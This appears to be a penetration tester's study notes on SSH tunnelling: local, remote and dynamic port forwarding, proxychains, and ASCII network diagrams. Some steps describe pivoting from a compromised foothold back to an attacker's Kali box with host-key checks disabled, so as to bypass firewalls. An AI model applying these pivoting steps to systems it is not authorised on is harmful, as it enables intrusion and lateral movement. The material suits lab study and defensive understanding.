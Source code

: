 # SSH Redirection And Tunnelling

## Introduction

For a broad usage of `ssh` visit: [[SSH-Cheatsheet]]

Terminology:
- Nested Sessions
	- When additional sessions are initiated within a primary session 
- Port Forwarding
	- Forwarding - like email to forward it on to another, there sending a protocol to another machine via some intermediary 
- Tunnelling
	- Encapsulating protocols inside another
- Proxying
	- Like port forwarding except we are not limited by a port - we are still using a port to receive just that the protocols that we are receive are not limited to one port from one machine.

```bash
# Create new key to avoid mixing traffic
ssh-keygen
# Check how the kernel is managing ssh - not include here for non-systemd 
sudo systemctl status ssh

```
## SSH Tunnelling & Local Port Forwarding

```bash
# From Attack box
# Local port forwarding
# ssh -N -L [bind_address:]$port:host:hostport [username@address]
ssh -L 127.0.0.1:8080:127.0.0.1:80 user@10.10.10.10 -p 2222
ssh -f -N -L $port:127.0.0.1:port user@ip -i id_rsa

# If you want to access a remote server using a private key.
-i id_rsa
# For local port 
-L local_port:remote_address:remote_portforwarding.
# For remote port forwarding.
-R port:local_address:local_port
# Dynamic port forwarding. Creates a socks proxy on localhost. 
-D local_PORT
# Do not execute a remote command, useful for just forwarding ports
-N 
# To background just before command execution
-f
```

If you do not want to break your ssh connection [konami from SANs](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) discusses using the key sequences ssh client:
-  `~.` - terminate connection (and any multiplexed sessions)
-  `~B` - send a BREAK to the remote system
-  `~C` - open a command line
-  `~R` - request key
-  `~V/v` - decrease/increase verbosity (LogLevel)
-  `~^Z` - suspend ssh
-  `~#` - list forwarded connections
-  `~&` - background ssh (when waiting for connections to terminate)
-  `~?` - this message
-  `~~` - send the escape character by typing it twice
-   (Note that escapes are only recognised immediately after newline.)

https://www.ired.team/offensive-security/lateral-movement/ssh-tunnelling-port-forwarding
If you need ssh-keys
```bash
ssh-keygen
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
chmod 644 id_rsa.pub
```

If running through some shells like Meterpreter we need to have some host key acceptable, without using our Kali Password!
```bash
ssh -f -N -R $kali-port-for-ssh:$ssh-ip-connection:22 -R $kali-port-second-for-Service:$Network-IP:$Service-Port-To-Tunnel-To$ -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@$kali-IP 
```
For the keys and assured non-interactivity of ssh to tunnel correctly:
```bash
mkdir /tmp/key -p; cd keys
ssh-keygen 
#Enter location: /tmp/key/id_rsa
	from="$foothold-ssh-ip",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa $ssh-rsa=$(cat id_rsa) $foothold-user-base-reverse-shell@poornetwork
```
This entry will allow the foothold key owner of the private key to log in to Kali, without RCE-ing ourselves and allows for port forwarding.

Back to the trusty ascii art:
```goat
______	
[[  ]] ---------> {Internet}
/===/				  ^
Attacker			  |
				  	  |										 
		   _______[FIREWALL] 
		  |
______	  |	  ______					  			 ______
[[  ]]<------>[[  ]]-----Not routed to firewall----->[[  ]] 							
/===/		  /===/						 			 [[  ]]	
Client		 Client						  			Server										 
```

Local port forward with `ssh` to bypass firewall that is allowing inbound and outbound connection from specific ports, then using some service to tunnel traffic to the `Server`
```goat				
	________{_____SSH Tunnel_____}___
	^		  {                 }	|
	|			{		      }		|
______			 {		    }		|
[[  ]] ---------> {Internet}		|
/===/				  ^				|
Attacker			  |				|
				  	  |				|
		   _______[FIREWALL]		|
		  | 						|
		  |		____________________|
		  |		|	
		  |		|	
		  |		|   _______________Service Interaction_________
		  |		V  |										   |
______	  |	   ______					  			  ______   |
[[  ]]<------->[[  ]]-----Not routed to firewall----->[[  ]]<---						
/===/		   /===/						 		  [[  ]]	
Client		  Client						  		  Server										 
```

Check the service configuration file to be compatible with whatever servers, clients and network environments Attacker is operating for example SMB with Kali:
```bash
cat -n /etc/samba/smb.conf | grep "min protocol"
# edit
# And restart <insert service> service or with systemctl
sudo /etc/init.d/smbd restart
```

Then we can just connect from our localhost configured to route traffic throught the SSH tunnel:
```bash
smbclient -L 127.0.0.1 -U Administrator
```

## SSH Remote/Reverse Port Forwarding

Remote or Reverse is a terminological yet-to-be-standardised dichotomy that will appear across the literature, blogs and discussions. It means the same thing, executing a command on a non-local box such that the local box receives the forwarded traffic from specific port.  Reversal of Local port forwarding as port is **opened** from the remote side of the connection and the traffic is forwarded to a port back to local box with remote flag with `ssh -R`. This is possible within a nested session of SSH, which means we have connected to a remote machine, but are initiating a new session within this session and are executing it on the remote machine. Therefore we are performing Remote/Reverse Port Forwarding as the command is being executed on the remote machine from within a nested session.

```bash
# Syntax: ssh -N -R [bind_address:]port:host:hostport [username@address]
ssh -N -R $Attacker_IP:$Listening_port:$remotes_127-0-0-1:$port_forwarded_through attacker@$Attacker_IP
```

Ascii Art:
```goat
 	___________{Internet}_____REMOTE_PORT_FORWARDING_____________
   |				  ^											|
   |				  |											|
   |  		    	  |										  START
______				  |										 ______
[[  ]] ---------> [FIREWALL] <-----/NO ROUTE TO INTERNET-----[[  ]] 
/===/														 /===/
Attacker													 Client
```
Notice that the `START` point differs from the `START` for Local Port Forwarding

## SSH Dynamic Port Forwarding

Setting a local listiening port and have it tunnel incoming traffic to any remote destination through a proxy, see [[Proxies]] from more information on setting them up.

```bash
# Syntax
# ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
ssh -N -D 127.0.0.1:$port $user@$SSH_server_address
```

See [[Proxies]] for `proxychains` configuration.

```goat				
	________{_____SSH_Tunnel_______}_
	^		  {                  }	|
	|		   { 				}	|
	|			{				}	|
[SOCKS]		  	  {		      }		|
[PROXY]			{             }		|
______			 {		    }		|
[[  ]] ---------> {Internet}		|
/===/				  ^				|
Attacker			  |				|
				  	  |				|
		   _______[FIREWALL]		|
		  | 						|
  ________|_________________________|
 |		  |		|	|
 |		  |		|	|
 |		  |		|   ___________________________________________			
 |		  |		V  										   	   |
______	  |	   ______					  			  ______   |
[[  ]]<------->[[  ]]-----Not routed to firewall----->[[  ]]<---						
/===/		   /===/						 		  [[  ]]	
Client		  Client						  		  Server										 
```
With `proxychains` we can execute commands from the end point of the SSH tunnel.
```bash
sudo proxychains <whatever command>
```


## References

[Wikipedia Tunnelling (Protocol)](https://en.wikipedia.org/wiki/Tunneling_protocol)
[Port forwarding Wiki](https://en.wikipedia.org/wiki/Port_forwarding)
[SSH has an academy](https://www.ssh.com/academy/ssh/protocol)
[iredteam](https://www.ired.team/offensive-security/lateral-movement/ssh-tunnelling-port-forwarding)
[THM Wreath Room](https://tryhackme.com/room/wreath)